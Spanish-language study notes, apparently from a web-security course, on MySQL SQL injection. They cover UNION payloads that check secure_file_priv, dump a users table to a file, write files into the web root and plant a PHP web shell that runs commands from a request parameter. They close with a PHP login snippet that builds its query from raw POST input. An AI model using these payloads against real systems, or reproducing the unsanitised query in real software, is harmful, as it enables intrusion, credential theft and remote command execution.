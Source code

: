 Sin embargo, si queremos usar "UNION" injección tenemos que tenr el valor usando "SELECT" esto no sera un problema porque sabemos que todo esta guardado en "INFORMATION_SCHEMA" 

```
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

### SELECCIONAR DENTRO DE UN ARCHIVO

Ahora que confirmamos y usamos SELECNT into a file, nosotros lo añadiremos apra leer un archivo específico.

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Y si no vamos a ese archivo lo podremos leer
```
cat /tmp/credentials
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
cat /tmp/test.txt 
```

### ESCRIBIR ARCHIVOS CON SQL INJECTION

Ahora que sabemos escribir podemos ahcer cositas

```
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

Para escribir una web shell, encesitaremos busacr el archivo donde sta "Load_file" para leer el archivo normlamente esta en "/etc/apache2/apache.conf" 

```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

## ESCRIBIR UNA WEB SHELl

Sabiendo esto es simple
```
<?php system($_REQUEST[0]); ?>
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
http://SERVER_IP:PORT/shell.php?0=id
```

### NO sanitizado

```
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
```